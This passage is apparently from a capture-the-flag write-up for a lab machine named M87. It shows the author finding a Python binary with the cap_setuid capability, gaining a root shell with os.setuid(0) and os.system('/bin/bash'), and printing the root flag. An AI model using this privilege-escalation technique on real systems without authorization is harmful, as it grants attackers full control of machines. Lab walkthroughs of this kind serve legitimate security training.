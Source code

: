```
/usr/bin/ping = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```
We found that `/usr/bin/old` have `cap_setuid` capabilities.
When I run the /usr/bin/old found that it running python.
```
charlotte@M87:~$ /usr/bin/old
Python 2.7.16 (default, Oct 10 2019, 22:02:15) 
[GCC 8.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
```
Now it's very easy to launch the shell using python as root user.
```
>>> import os
>>> os.setuid(0)
>>> os.system('/bin/bash')
root@M87:~# 

```
# Root Flag
```
root@M87:/root# cat proof.txt 


MMMMMMMM               MMMMMMMM     888888888     77777777777777777777
M:::::::M             M:::::::M   88:::::::::88   7::::::::::::::::::7
M::::::::M           M::::::::M 88:::::::::::::88 7::::::::::::::::::7
M:::::::::M         M:::::::::M8::::::88888::::::8777777777777:::::::7
M::::::::::M       M::::::::::M8:::::8     8:::::8           7::::::7
M:::::::::::M     M:::::::::::M8:::::8     8:::::8          7::::::7
M:::::::M::::M   M::::M:::::::M 8:::::88888:::::8          7::::::7
M::::::M M::::M M::::M M::::::M  8:::::::::::::8          7::::::7
M::::::M  M::::M::::M  M::::::M 8:::::88888:::::8        7::::::7
M::::::M   M:::::::M   M::::::M8:::::8     8:::::8      7::::::7
M::::::M    M:::::M    M::::::M8:::::8     8:::::8     7::::::7
M::::::M     MMMMM     M::::::M8:::::8     8:::::8    7::::::7
M::::::M               M::::::M8::::::88888::::::8   7::::::7
M::::::M               M::::::M 88:::::::::::::88   7::::::7
M::::::M               M::::::M   88:::::::::88    7::::::7
MMMMMMMM               MMMMMMMM     888888888     77777777


Congratulations!

You've rooted m87!

21e5e63855f249bcd1b4b093af669b1e

mindsflee
```
